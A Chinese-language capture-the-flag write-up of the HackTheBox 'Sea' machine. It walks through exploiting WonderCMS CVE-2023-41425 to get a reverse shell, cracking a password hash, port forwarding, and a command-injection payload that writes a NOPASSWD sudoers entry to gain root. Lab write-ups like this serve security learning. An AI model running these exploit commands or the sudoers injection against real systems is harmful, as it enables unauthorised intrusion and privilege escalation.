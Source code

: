 ```yaml
---
title: "HTB-Sea"
date: 2024-08-28
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Port & Dir scan

![](./images/image-78.png)

![](./images/image-79.png)

发现一个contact.php。进去看看

![](./images/image-80.png)

尝试抓包看看。并没有什么回显。

![](./images/image-81.png)

尝试扫描一下其他的目录。

![](./images/image-82.png)

dirsearch没扫出来，用gobuster扫描出了一个bike目录。

![](./images/image-83.png)

重要的是这个license

![](./images/image-84.png)

![](./images/image-86.png)

这里暴露出了作者的名字

## Github resource

![](./images/image-87.png)

看来网站似乎是用的这个WonderCMS，其中的LICENSE是一模一样的。

![](./images/image-88.png)

当前CMS的版本的3.2.0

![](./images/image-89.png)

而经过查找漏洞，发现在WonderCMS的v3.2.0到v3.4.2之间存在漏洞

![](./images/image-90.png)

## CVE-2023-41425

POC地址：[insomnia-jacob/CVE-2023-41425: WonderCMS RCE CVE-2023-41425 (github.com)](https://github.com/insomnia-jacob/CVE-2023-41425)

检查exploit.py中的代码，发现访问的是这个路由

![](./images/image-92.png)

这个路由也是存在的。

![](./images/image-93.png)

那么就开始攻击。

![](./images/image-99.png)

```
┌──(root㉿kali)-[/home/kali/CVE-2023-41425]
└─# python exploit.py -u http://sea.htb/loginURL -i 10.10.16.16 -p 4444 -r http://10.10.16.16/main.zip
```

记得要在本地监听端口

![](./images/image-95.png)

回到contact.php，将exp执行后下面出现的link给传上去。

![](./images/image-97.png)

即可反弹shell，当前用户权限是普通的www-data，要想办法提权

![](./images/image-100.png)

kali上有linpeas的脚本，开一个httpserver然后靶机下载就行。记得在/tmp目录下才有写的权限。

![](./images/image-101.png)

成功执行，不过有点慢

![](./images/image-102.png)

发现有这几个CVE。

![](./images/image-103.png)

这个CVE-2021-3156看起来似乎能用。

![](./images/image-105.png)

不过这个几个漏洞都用不了。

## Brute Force

在/var/www/sea目录下面发现一个database.js

![](./images/image-106.png)

其中有一个密码字段，这里使用hashcat和rockyou字典来破解，字符串里的反斜杠一定要去掉，不然会报错。（以及虚拟机内存一定要开大一点，原来虚拟机2G的内存连hashcat都跑不起来，把他加大到8个G才成功）

![](./images/image-108.png)

得到密码是：**mychemicalromance**

查看/etc/passwd，发现有两个可疑的用户名

![](./images/image-109.png)

尝试登陆amay，成功进入！

![](./images/image-110.png)

## Privilege Escalation

不过amay并不在超级用户中

![](./images/image-111.png)

之前linpeas的输出中发现有8080和33815这两个端口，不过外部访问不了，只能自己在命令行里看。

![](./images/image-112.png)

有的网站需要用到身份认证，可以使用-u 或者--user 来进行传参，这里用amay的用户密码可以正常访问

![](./images/image-113.png)

```
ssh -v -N -L 8080:localhost:8080 amay@sea.htb
#v是详细模式，N是只转发端口，L是转发本地端口，这里仅做一个端口映射，便于本地访问
```

![](./images/image-115.png)

点击access.log之后出现日志，这里可以抓包修改文件名读取任意文件。

![](./images/image-116.png)

不仅如此，还可以执行命令。

![](./images/image-117.png)

尝试给amay加一点权限呢

```
/etc/passwd+&&+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#
#一定要url编码一下
/etc/passwd+%26%26+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#
```

![](./images/image-118.png)

成功拿到root权限

root的flag在root下的root.txt中，user的flag在/home/amay目录里。

## Summary

第一次接触国外的在线靶场，感觉这个hackthebox还不错，虽然是边看wp边做的，不过收获还是很多。

